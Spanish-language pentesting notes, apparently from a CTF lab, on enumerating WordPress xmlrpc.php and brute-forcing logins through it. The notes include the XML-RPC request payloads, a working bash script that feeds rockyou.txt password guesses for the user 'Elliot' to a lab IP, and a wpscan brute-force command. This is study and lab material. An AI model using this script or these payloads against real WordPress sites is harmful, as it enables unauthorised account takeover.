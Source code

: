 # ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Pasted image 20240613005147.png]]

Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Pasted image 20240613005152.png]]

Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20240613005159.png]]

Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20240613005206.png]]

```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

Por tanto pegamos este código en un fichero xml:
![[Pasted image 20240613005324.png]]

Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Pasted image 20240613005330.png]]

Y el servidor nos responde con todos los métodos disponibles:
![[Pasted image 20240613005336.png]]

Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Pasted image 20240613005341.png]]

```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Pasted image 20240613005349.png]]

![[Pasted image 20240613005352.png]]

En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```

![[Pasted image 20240613005403.png]]

O también directamente desde la herramienta, lo cual será más rápido:
```bash
wpscan --url <url> -U <user> -P <pass>
```

![[Pasted image 20240613005411.png]]

Y nos la encuentra:
![[Pasted image 20240613005417.png]]
